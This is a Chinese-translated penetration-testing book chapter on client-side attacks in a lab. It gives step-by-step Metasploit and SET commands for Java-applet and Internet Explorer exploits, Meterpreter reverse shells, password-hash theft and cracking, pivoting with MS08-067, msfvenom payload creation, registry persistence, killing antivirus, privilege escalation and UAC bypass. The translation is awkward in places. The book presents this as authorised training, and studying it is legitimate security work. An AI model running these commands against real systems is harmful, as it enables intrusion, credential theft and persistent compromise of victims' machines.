# 十二、探索客户端攻击向量

在本章中，我们将确定用于攻击客户端的方法。与我们的服务器不同，客户端不提供服务；因此，让客户机等待我们攻击它并不是一项简单的任务。相反，我们将使用技术让客户来找我们。在本章中，我们将讨论以下主题：

*   客户端攻击方法
*   从客户端窃取数据
*   将客户端用作轴心点
*   客户端利用
*   二进制有效载荷
*   恶意 PDF 文件
*   绕过防病毒和其他保护工具
*   混淆和编码

本章将为我们提供有关如何瞄准客户的信息。我们将探讨攻击客户端的不同方法。我们还将探讨这是目前主要的攻击向量，我们将在今天的测试之后提出。我们的优势是知道客户在大多数情况下会点击链接或文件。正是这种行为为我们提供了攻击客户机的载体。

# 客户端攻击方法

正如我们已经说过的，当涉及到客户时，他们不只是坐着等待我们的连接；因此，我们必须欺骗他们，让他们来找我们。我们有很多方法可以做到这一点，现在我们将讨论其中的两种。

## 诱饵

当我们部署诱饵技术时，我们设置某种形式的诱饵，等待客户来取饵。这是一种类似于钓鱼的方法，即我们尝试放置某种类型的诱饵，并吸引客户前来。这种方法的问题与捕鱼的问题是一样的。我们不知道客户是否会来到我们有诱饵的地方。

## 诱饵

使用诱饵概念，我们仍在试图诱骗客户来找我们，但我们不会只是等待他们来取某种形式的诱饵。相反，我们向客户发送某种形式的通信，然后等待，看看他们是否被诱骗而跟随我们的钩子。在这个场景中，我们有三种主要方法，它们是电子邮件、web 和 USB 媒体。这也是网络钓鱼和鱼叉式网络钓鱼中使用的方法。在每种方法中，我们都会向潜在的受害者发送一封电子邮件，看看他们是否会点击我们发送给他们的链接。如果他们真的点击了链接，我们会让他们来找我们，或者在他们的系统上运行应用，并利用这些来发动我们的攻击。由于我们正在虚拟笔测试环境中工作，因此我们可以控制攻击的客户端。因此，这是一个在我们的范围内进行试验的问题，看看什么有效，什么无效。如果允许我们在工作范围内进行客户端测试，我们可以尝试发送网络钓鱼电子邮件和其他社会工程方法，看看是否能够诱使员工落入我们的陷阱。

这最好用一个例子来说明，所以我们现在就来做。我们需要 Kali Linux 机器和受害者机器。对于本书中的示例，我们将使用 Windows7 机器作为受害者机器。我们将使用的工具是 Dave Kennedy 开发的社会工程工具包；您可以从[下载 http://www.trustedsec.com](http://www.trustedsec.com) 。这是一个特殊的工具，有助于客户端攻击。我们将为第一个示例探索 java 攻击向量。

机器启动并运行后，我们将打开终端窗口并进入`setoolkit`启动社会工程工具包。接受服务条款并输入`y`进入下一个提示。以下屏幕截图中显示了该菜单的示例：


社会工程工具包有许多菜单你必须完成，我们现在就开始。我们将使用**社会工程攻击**菜单，因此输入数字`1`，如下图所示：


在下一个窗口中，输入数字`2`选择**网站攻击向量**，如下图所示：


在下一个窗口中，通过输入数字`1`选择**Java 小程序攻击方式**，如下图所示：



我们将使用模板，因此请输入编号`1`。输入`no`因为我们没有使用端口转发。输入 Kali 机器的 IP 地址，以便从受害者处恢复连接，如以下屏幕截图所示：



在模板选项中，输入编号`1`选择**Java Required**，如下图所示：


我们将输入选项编号`2`以选择 MeterMeter 反向外壳有效载荷，如以下屏幕截图所示：



在编码选项中，为**后门可执行文件**选择选项编号`4`。接受默认侦听器端口 443。几分钟后，您应该会看到一条完成消息。以下屏幕截图显示了一个示例：


一旦过程完成，metasploit 程序将运行并输入反向外壳的配置。完成此过程后，您将看到类似于以下屏幕截图的结果：



流程完成后显示的屏幕（裁剪的文本不重要）

正如前面的屏幕截图所示，我们现在将该漏洞作为后台作业运行，因此我们所要做的就是让客户端单击引用我们在该漏洞上设置的 IP 地址的链接。出于测试目的，我们只需在 Windows7 机器上打开一个浏览器，然后输入 Kali 机器的 IP 地址。当您使用浏览器连接到服务器时，会出现一个引用 Java 的对话框。以下屏幕截图显示了一个示例：



我们的目的是让受害者点击**运行**按钮，所以我们现在就这样做。只要我们点击按钮，另一个窗口可能会弹出。我们不应该点击它超过两次。当我们回到我们的卡利机器，我们应该看到一个会话打开。以下屏幕截图显示了一个示例：


我们现在在机器上有一个会话，这只是一个问题，我们想从这里做什么。我们将在下一步研究这个问题。

# 从客户端窃取数据

一旦我们得到了机器的外壳，我们就会从中窃取信息。首先，我们将检查我们的特权级别。我们希望处于系统特权级别，以便能够毫无问题地访问数据。我们需要与 shell 交互，所以在 Kali 窗口中按*回车*，然后输入`sessions –i 1`进入会话。进入会话后，输入`getuid`。以下屏幕截图显示了一个示例：



如前一个屏幕截图所示，我们不在系统特权级别，因此我们现在要解决这个问题。输入`ps`显示受害者机器上正在运行的进程。我们将找到一个在系统特权级别运行的进程。我们示例中的受害者机器示例如以下屏幕截图所示：


正如前面的屏幕截图所示，我们有几个流程可供选择。我们将尝试迁移流程`Mcshield.exe`。为此，我们进入`migrate 1960`并等待，看看我们的过程是否成功。如果我们成功了，那么我们继续前进，再次进入`getuid`。如果我们没有成功，我们尝试另一个过程。隐藏在按需杀毒扫描程序中似乎是一个不错的过程。以下屏幕截图显示了一个示例：


正如前面的屏幕截图所示，我们已经升级了权限，现在正式拥有这个系统。因此，我们可以自由窃取信息，而不需要更高的特权级别。

仪表外壳中有许多工具，我们可以用来窃取额外信息。我们将首先探讨的是刮刀工具。顾名思义，我们使用这个工具从被利用的机器中获取信息。正在使用的工具示例如以下屏幕截图所示：


刮刀工具从受损机器中提取大量信息。这就是为什么提取信息和使用工具需要花费大量时间的原因。该工具还从机器中提取密码哈希。我们可以使用`hashdump`命令提取此信息。以下屏幕截图显示了一个示例：



我们可以将散列保存到一个文件中，然后通过密码破解工具**John the Ripper**或任何在线网站，如[运行它们 http://www.md5decrypter.co.uk](http://www.md5decrypter.co.uk) 。将散列保存到文件`hash.txt`后，我们打开终端窗口并输入`john hash.txt --show`。此将启动密码破解过程。以下屏幕截图显示了一个示例：


显示密码破解过程的屏幕（剪切的文本不重要）

我们也可以使用工具**winenum**来关注机器是 Windows 机器这一事实。以下屏幕截图显示了一个示例：


所有这些信息都保存在目录`/root/.msf4/logs/scripts`中。在此目录中，您将看到所使用工具的其他名为的目录。使用 winenum 工具后发现的文件示例如以下屏幕截图所示：



正如前面的屏幕截图所示，我们现在从受损的机器上窃取了大量信息。从`netstat__vb.txt`文件中窃取的信息示例如以下屏幕截图所示：



在上一个屏幕截图中，您可以看到机器上的连接。这包括来自我们的 Kali 机器的两个连接。如您所见，我们使用端口 443。这有几个原因。其中一些是：它看起来像网络日志中的正常通信量，我们将对信息进行加密，以便机器上的监控是盲目的。下面的屏幕截图显示了我们使用的会话示例：



前面的截图显示，当我们窃取信息时，没有显示我们实际做了什么。这使得很难确定会话中发生了什么。

# 以客户机为支点

当我们破坏一台机器时，下一步我们要做的就是利用客户机资源。这是因为我们知道大多数网络都配置了网络体系结构内部的位置，而不是网络外部的位置。我们称之为旋转。

## 旋转

为了确定我们潜在的支点，我们首先需要开发一台机器。然后，我们需要检查连接到另一个网络的机器中的第二个网卡，如果不使用我们利用的机器，我们无法访问该网卡。作为本书中的一个示例，我们将使用三台机器，其中 Kali Linux 机器作为攻击者，Windows XP 机器作为第一个受害者，Windows Server 2003 机器作为第二个受害者。这种情况是，我们让一个客户端访问我们的恶意站点，并对 Microsoft Internet Explorer 使用名为“免费后使用”*的漏洞攻击。这种类型的漏洞一直困扰着该产品的许多修订版。利用数据库网站的以下截图显示了一个例子：*


列表顶部列出的漏洞是针对 Internet Explorer 9 的漏洞。作为本书中的一个例子，我们将针对针对 InternetExplorer8 的漏洞攻击；攻击的概念是相同的。简单地说，Internet Explorer 开发人员继续犯分配内存后不清理内存的错误。

通过输入`msfconsole`启动 metasploit 工具。控制台打开后，输入`search cve-2013-1347`搜索漏洞。以下屏幕截图显示了搜索结果的示例：


一个问题是它被评为好的，但是当我们选择我们的漏洞时，我们喜欢找到优秀或更好的评级。为了我们的目的，我们将看看我们是否能使它发挥作用。当然，我们总是有机会找不到我们需要的东西，必须做出选择，要么编写自己的漏洞，要么记录它，然后继续测试。

对于我们在书中使用的示例，Kali 机器是 192.168.177.170，这是我们设置`LHOST`的值。出于您的目的，您必须使用您拥有的 Kali 地址。我们将在 metasploit 窗口中输入以下命令：

```
use exploit/windows/browser/ie_cgenericelement_uaf
set SRVHOST 192.168.177.170
set LHOST 192.168.177.170
set PAYLOAD windows/meterpreter/reverse_tcp
exploit

```

以下屏幕截图显示了上述命令的结果示例：


正如前面的屏幕截图所示，我们现在有了让用户访问的 URL。出于我们的目的，我们只需将其复制并粘贴到 Internet Explorer 8 中，该浏览器在 Windows XP Service Pack 3 计算机上运行。一旦我们粘贴了它，我们可能需要刷新浏览器几次以使有效负载正常工作；然而，在现实生活中，我们只有一次机会，所以请仔细选择您的漏洞，以便受害者的一次单击就可以完成预期的工作。因此，要成为一名成功的测试人员，有关各种开发的大量实践和知识至关重要。以下屏幕截图显示了利用漏洞完成并创建会话后应看到的示例：



屏幕显示了利用漏洞完成并创建会话后应看到的内容示例（裁剪的文本不重要）

我们现在在机器上有一个外壳，我们想检查它是否是双宿主的。在 MeterMeter 外壳中，输入`ipconfig`查看您利用的机器是否有第二张网卡。下面的屏幕截图显示了我们在本书中利用的机器示例：



正如前面的截图所示，我们很幸运。我们已经连接了第二张网卡和另一个网络供我们探索，现在让我们来做吧。我们要做的第一件事是设置外壳，以路由到我们新发现的网络。这是我们选择 MeterMeter 外壳的另一个原因，它为我们提供了设置路由的能力。在 shell 中，输入`run autoroute –s 10.2.0.0/24`设置到我们 10 网络的路由。命令完成后，我们将查看路由表并输入`run autoroute –p`显示路由表。以下屏幕截图显示了一个示例：


正如前面的截图所示，我们现在有一条通过会话 1 到 10 网络的路线。所以，现在是时候看看我们的 10 网络是什么了。接下来，我们将为第 1 节课添加背景；按*Ctrl*+*z*键可设置会话背景。我们将使用 metasploit 工具中的扫描功能。输入以下命令：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 10.2.0.0/24
set PORTS 139,445
set THREADS 50
run

```

端口扫描仪效率不高，扫描需要一些时间才能完成。您可以选择直接在 metasploit 中使用 Nmap 扫描仪。输入`nmap –sP 10.2.0.0/24`。一旦确定了带电系统，对目标执行扫描方法。在这里的例子中，我们的目标位于`10.2.0.149`。

以下屏幕截图显示了此扫描结果的示例：


我们现在有了一个目标，我们可以使用前面介绍的许多方法来对付它。出于我们在这里的目的，我们将看看是否可以使用著名的 MS08-067 服务服务器缓冲区溢出攻击目标。在 metasploit 窗口中，在后台设置会话并输入以下命令：

```
use exploit/windows/smb/ms08_067_netapi
set RHOST 10.2.0.149
set PAYLOAD windows/meterpreter/bind_tcp
exploit

```

如果一切顺利，你会看到机器上有一个外壳打开。确认后，输入`ipconfig`查看机器上的网络配置。从这里开始，这只是执行我们之前遵循的过程的问题，如果你找到另一台双机，那么你可以做另一个支点并继续。以下屏幕截图显示了一个结果示例：


正如前面的截图所示，pivot 是成功的，我们现在在 metasploit 中打开了另一个会话。这通过**本地管道**|**远程管道**参考反映。完成信息审查后，输入`sessions`以显示会话信息。以下屏幕截图显示了此结果的示例：


## 代理利用

在本节中，我们将研究 metasploit 工具使用 HTTP 和 HTTPS 进行通信的能力。通常针对我们部署的防御措施之一是出口或出站流量的概念。现在，常见的情况是站点只允许出站 HTTP 和 HTTPS 流量；因此，metasploit 的开发人员为此创建了模块。

## 利用客户端配置

当我们使用技术来利用与攻击者机器的通信时，我们将读取客户端配置，然后通过在那里配置的代理发送通信量。传统上，这是一个困难的过程，需要花费相当多的时间来设置。因此，时间量和通信要求增加了被检测到的机会或会话定时中断的机会。幸运的是，我们可以探索其他选项来帮助我们实现这一点。metasploit 的开发人员创建了两个阶段，允许我们利用客户机配置，并且他们在 Meterpeter 外壳中对 HTTP 和 HTTPS 通信都有本机支持。此外，这些 stager 还提供了设置大量不同选项的功能，这些选项允许在指定的时间段内通过设置会话的过期日期来重新连接 shell。

这两个阶段是**反向【http】**和**反向【https】**。这两个阶段的独特之处在于，它们不与特定的 TCP 会话相关联，也就是说，它们提供了基于数据包的事务处理方法，而其他选项是基于流的。这就为攻击提供了一组更强大的选项。此外，我们还提供了三个选项来帮助我们确定用户何时完成操作，如下所示：

*   到期日期：默认为一周
*   **生存时间****TTL**：默认为 5 分钟
*   暴露的 API 核心：使用 detach 命令退出但不终止会话

这些参数允许我们断开与会话的连接，并在以后自动重新连接。它们还允许我们将负载设置为持久侦听器，然后连接到它，即使目标重新启动或关闭。我们现在将对此进行探讨。

在本例中，我们将使用恶意可执行文件。我们可以使用许多不同的载体，如 web、电子邮件或 USB，但为了更简单的选择，我们将使用恶意可执行文件。此外，我们将使用一个特殊的工具来创建有效负载。如果未运行 metasploit，请输入`msfconsole`以启动工具。工具启动后，输入`msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=192.168.177.170 LPORT=4443 > https.exe`创建名为`https.exe`的可执行文件。以下屏幕截图显示了该命令的输出示例：



现在我们将设置处理程序。在 metasploit 中输入以下：

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.177.170
set LPORT 4443
set SessionCommunicationTimeout 0
set ExitOnSession false
exploit –j

```

完成后的命令示例如以下屏幕截图所示：



我们现在准备让受害者运行我们的可执行文件。将可执行文件移动到受害者机器后，双击该文件，返回 metasploit 处理程序，并观察结果。以下屏幕截图显示了一个示例：



从这里开始，这是一个我们想做什么的问题。输入我们以前在 MeterMeter shell 中使用的一些命令。这里额外的好处是，我们有所有的通信出口到端口 4443，这将看起来完全像正常的流量。在卡利，在 Wireshark 上开始捕获并观察机器之间的通信。以下屏幕截图显示了一个示例：


同样，如果想要将端口更改为 SSH、HTTPS 或任何我们认为可以从我们正在测试的环境中获得的端口，我们可以自由地这样做。有关该功能的强大程度的示例，请继续让客户端与您连接。在 MeterMeter 外壳中，输入`detach`退出会话；一旦你退出，受害者就会与你联系。

以下屏幕截图显示了一个示例：



我们将尝试做的下一件事是通过将代码复制到注册表来设置受害者，以便即使重新启动攻击也能存活下来。在 MeterMeter 外壳中，输入以下命令：

```
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v evil -d 'C:\windows\https.exe'
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

```

以下屏幕截图显示了使用这些命令的结果示例：



使用这些命令，我们首先枚举注册表，然后设置启动时引用程序的键。如第三个命令所示，`evil`程序现在位于注册表项中。当然，如果我们试图隐藏它，我们会给它取个别的名字。我们可以通过访问 Windows XP 机器并导航到**开始****运行****regedit**并搜索该程序来验证该程序是否已植入。以下屏幕截图显示了一个示例：


我们现在要重新启动受害者机器。重新启动后，metasploit 窗口中返回的连接结果示例如以下屏幕截图所示：



# 客户端开发

到目前为止，我们讨论的大部分内容都是一种形式的客户端利用。在本节中，我们将了解更多攻击客户端的方法。我们将继续利用客户机的向量攻击机器，点击链接或文件并指向我们的攻击者机器。在我们继续之前，我们想重申，在撰写本书时，我们使用了最新和最强大的攻击。当你读这本书的时候，有些事情已经改变了。然而，唯一不变的是过程和方法。只要您继续遵循系统化流程，您将能够发现和识别最新的技术，并相应地修改您的方法。

我们在本章中使用的先前方法的一个挑战是，我们必须根据遇到的软件版本选择特定的漏洞利用。我们用 Java 和 Internet Explorer 实现了这一点。这很有效，但如果我们不知道受害者与我们连接时，他们的系统上到底会有什么呢？正如你所想象的，这是一个合理的担忧。幸运的是，metasploit 的优秀开发人员已经解决了这个问题。因此，他们为我们提供了一个模块，一旦建立了连接，该模块将尝试提供各种利用漏洞的服务。该模块为`browser_autopwn`。这个功能强大的模块确实使用库存中的所有当前漏洞建立了一个 web 服务器，当建立连接时，该模块将运行可用漏洞，直到找到一个漏洞为止。请记住，因为它永远不会被忽视，利用率不是 100%，所以它有失败的可能性。但是作为测试人员，我们必须始终尝试并保持记录结果的实践，然后继续我们的测试。

那么，让我们开始吧。在 metasploit 界面中，输入以下命令：

```
use auxiliary/server/browser_autopwn
set LHOST <Kali IP>
set SRVHOST <Kali IP>
set SRVPORT 80
set URIPATH /
run

```

`URIPATH`设置告诉 metasploit 不要生成随机 URL。我们希望客户端只连接到 Kali 机器上运行的服务器的地址。以下屏幕截图显示了这些设置的示例：


您会注意到，一旦您输入了`run`命令，该工具将开始创建大量组件来支持我们的漏洞利用。这将需要一些时间来完成。以下屏幕截图显示了为利用漏洞创建的不同组件的一些输出示例：


在写这本书的时候，我们有 19 个漏洞，这些漏洞是作为准备与受害者建立联系的一部分而创建的。以下屏幕截图显示了一个示例：



我们之前没有对此发表评论，但一旦收到 shell，您就会注意到迁移过程正在进行。这是因为当您尝试利用漏洞时，浏览器不是很稳定。因此，一旦获得访问权限，迁移该漏洞就非常重要。如果浏览器崩溃或被用户关闭，对您的会话几乎没有影响。

以下屏幕截图显示了客户端连接时的结果示例：



作为提醒，该模块将继续激发漏洞攻击并尝试获取会话，但不能保证它会。阅读本文的一些人可能想知道，如果另一台机器连接到我们的服务器，会发生什么。有关使用 Firefox 作为浏览器的示例，请参阅以下屏幕截图：



从这一点上来说，你所能做的就是等待，看看你是否幸运，其中一个漏洞是否成功。如果一切顺利，您最终将看到一个会话打开。以下屏幕截图显示了一个示例：


现在我们有了一个外壳，我们可以执行本书前面提到的任何事情。有一个我们到目前为止还没有讨论过，我们现在就来做。使用 sessions 命令开始与 meterpetershell 交互。进入外壳后，输入`run getcountermeasure`查看客户机上的保护类型。以下屏幕截图显示了一个示例：


我们看到机器上有一个潜在的防病毒程序，我们还看到我们有防火墙。我们要做的第一件事是试图杀死防病毒程序。输入`run killav`试图杀死正在运行的防病毒程序。以下屏幕截图显示了一个示例：


正如前面的截图所示，我们没有成功，这是因为我们没有达到我们需要的特权级别。我们可以尝试迁移到一个流程来提升我们的权限，但这意味着我们必须做额外的工作来确定迁移到哪个流程，我们可能不会成功。那么，让我们尝试另一种方法。正如我们继续声明的那样，我们有方法论；这些工具将随着时间和大量实践而出现。在 MeterMetershell 中，输入`getsystem`让工具尝试多种技术来提升权限。以下屏幕截图显示了一个示例：


正如前面的屏幕截图所示，我们现在有了系统，因此，可以关闭我们之前检测到的保护。此外，我们可以在这个系统上做任何我们想做的事情，因为特权已经升级。我们将把它作为家庭作业留给那些想进一步探索的人。

在本节中，我们将再看一件事，那就是绕过机器上的**用户帐户控制**（**UAC**）的能力。正如我们之前发现的，我们不能保证我们会成功，但我们至少可以尝试一下。在 metasploit 工具中，如果会话不再处于活动状态，请使用我们介绍的任何方法利用计算机，并确定会话的权限级别。完成此操作后，在后台设置会话并搜索漏洞。我们已经介绍了所有这些步骤，因此在此不再介绍它们。准备好搜索后，输入`search uac`和搜索 UAC 旁路。

以下屏幕截图显示了搜索结果的示例：


正如前面的截图所示，我们有许多不同的技术可用，但令人担忧的是没有比 2012 年更新的技术，因此我们在利用这一技术方面的成功可能有限。我们总是可以尝试，因为我们有三种技术被评为优秀，我们将使用它们。它们的一个共同点是，必须启动会话才能尝试绕过。我们将从底部开始，一路向上。以下屏幕截图显示了一个结果示例：


正如前面的截图所示，我们的第一次尝试是成功的，从这一点上，我们可以继续使用前面介绍的后期开发技术。请记住，遵守我们工作范围中详述的要求。

# 二进制有效载荷

在 metasploit 工具中，我们能够生成我们自己的二进制有效载荷，这就是我们将在本节中介绍的内容。要查看此选项，请启动 metasploit 工具并输入`msfpayload windows/shell_reverse_tcp O`。最后的`O`将显示可为我们的有效载荷设置的选项。因为我们正在设置一个反向 shell，所以您可能对该选项有很好的了解。以下屏幕截图显示了此命令的输出示例：


正如前面的屏幕截图所示，我们有基于 Kali 机器本地机器地址的默认设置。因此，我们真的不需要任何更改，除非我们想要定义一个特定的`LPORT`来退出防火墙。因此，出于我们的目的，我们将保持设置不变。输入`msfpayload LPORT=4443 X > /tmp/chess.exe`。创建文件后，我们将查看文件的详细信息。在窗口中，输入`file /tmp/chess.exe`。

以下屏幕截图显示了这些命令的输出示例：

